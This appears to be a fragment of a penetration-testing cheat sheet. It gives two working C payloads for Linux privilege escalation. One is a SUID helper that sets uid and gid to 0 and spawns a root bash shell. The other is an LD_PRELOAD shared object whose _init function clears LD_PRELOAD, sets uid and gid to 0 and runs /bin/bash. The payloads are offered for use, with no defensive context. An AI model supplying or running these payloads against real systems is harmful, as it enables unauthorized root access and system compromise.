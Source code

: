 - Simple binary for SUID exploitation
	```C
	#include <unistd.h>
	#include <err.h>
	#include <stdio.h>
	#include <sys/types.h>
	
	int main(void) {
	        if (setuid(0) || setgid(0))
	                err(1, "setuid/setgid");
	        fputs("We are root! Cthulhu fhtagn!\n", stderr);
	        execl("/bin/bash", "bash", NULL);
	        err(1, "execl");
	}
	```

- Simple LD_PRELOAD privesc binary
	```C
	#include <stdio.h>
	#include <sys/types.h>
	#include <stdlib.h>
	
	void _init() {
	    unsetenv("LD_PRELOAD");
	    setgid(0);
	    setuid(0);
	    system("/bin/bash");
	}
	```